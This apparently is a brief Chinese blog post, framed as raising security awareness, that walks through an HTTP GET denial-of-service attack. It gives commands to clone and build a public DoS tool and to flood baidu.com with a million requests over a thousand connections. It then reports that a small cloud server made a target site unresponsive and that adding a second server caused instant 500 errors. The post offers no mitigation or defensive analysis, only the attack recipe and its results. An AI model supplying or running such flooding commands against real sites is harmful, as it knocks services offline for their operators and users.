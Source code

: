 ```yaml
---
title: "一次简单的http-get攻击"
date: 2022-08-31T07:08:22Z
description: "记录一次简单 Dos 攻击方法，提升网络安全意识."
categories: ["技术笔记集"]
tags: ["dos", "linux", "http-get"]
draft: false
# weight: 5
---
```


使用 [http-get-dos](https://github.com/wenfengshi/ddos-dos-tools/tree/master/http-get-dos) 工具执行。

> http-get-dos是一个简单的、高性能HTTP GET DOS工具，可自定义HTTP请求头、连接数、总的HTTP请求数等
进入目录下make编译后，http-get-dos -h 查看使用信息
> 

来源GitHub项目：DDos/DoS工具集：[https://github.com/wenfengshi/ddos-dos-tools](https://github.com/wenfengshi/ddos-dos-tools)

命令:

```bash
git clone https://github.com/wenfengshi/ddos-dos-tools.git
cd ddos-dos-tools/http-get-dos
make
./http_get_dos -n 1000000 -c 1000 -H "Connection: keep-alive" http://www.baidu.com/
```

实测采用一台1m阿里云服务器对1m轻量服务器攻击，网站无响应

实测再加入搬瓦工1G口KVM对阿里云1M轻量服务器攻击，网站瞬间500.

